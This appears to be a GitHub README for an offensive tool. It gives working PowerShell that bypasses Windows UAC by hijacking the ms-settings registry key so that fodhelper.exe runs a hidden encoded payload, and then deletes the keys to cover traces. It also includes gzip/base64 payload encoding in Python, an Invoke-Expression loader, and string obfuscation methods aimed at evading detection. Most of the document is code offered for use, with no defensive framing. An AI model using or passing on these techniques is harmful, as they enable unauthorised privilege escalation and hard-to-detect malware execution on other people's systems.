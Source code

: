 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```

<b>Extraction Method</b>

```powershell
# Decode and Decompress
# Output will be a string

(New-Object IO.Compression.GZipStream(
    # Decode
    [System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE),

    # Decompress stream with gzip
    [System.IO.Compression.CompressionMode]::Decompress
) |

# % is shorthand for "foreach-object"
%{

    # Read from gzip stream, convert to ascii
    New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)

# Convert all to single string
}).ReadToEnd() 
```

or

```powershell
(New-Object IO.Compression.GZipStream([System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE), [System.IO.Compression.CompressionMode]::Decompress) |%{New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)}).ReadToEnd()
```

### Powershell Obfuscation Methods
<p>Numeric to string conversion obfuscation</p>
<p>Character code obfuscation</p>
<p>String slicing and indexing obfuscation</p>

```powershell
# NUMERIC CONVERSION -> Write-Host 420
[string]::join('',((87,114,105,116,101,45,72,111,115,116,32,52,50,48)|%{[char]$_}))

# CHARACTER CODE -> Write-Host 420
[char](87)+[char](114)+[char](105)+[char](116)+[char](101)+[char](45)+[char](72)+[char](111)+[char](115)+[char](116)+[char](32)+[char](52)+[char](50)+[char](48)

# STRING SLICING -> Write-Host 420
"zttxirGVRskXrsEFIcH0X2cPLmO WnoruBWUks-f2neGJNIo46"[34,12,4,2,42,38,18,30,13,1,27,48,40,19] -join ""
```

### Match and Replace
<p>Because each method returns a string, we need to include either & and/or & Invoke-Expression</p>

```python
full_payload = r"$command = '" + encoded_command + r"';(& (\New-Object\) (\IO.Compression.GZipStream\)([System.IO.MemoryStream][Convert]::FromBase64String('" + compressed_base64 + r"'), [System.IO.Compression.CompressionMode]::Decompress) | % {(& (\New-Object\) (\System.IO.StreamReader\)($_, [System.Text.Encoding]::ASCII))}).(\ReadToEnd\)() | Invoke-Expression"

pattern = r"\\.+?\\"
```

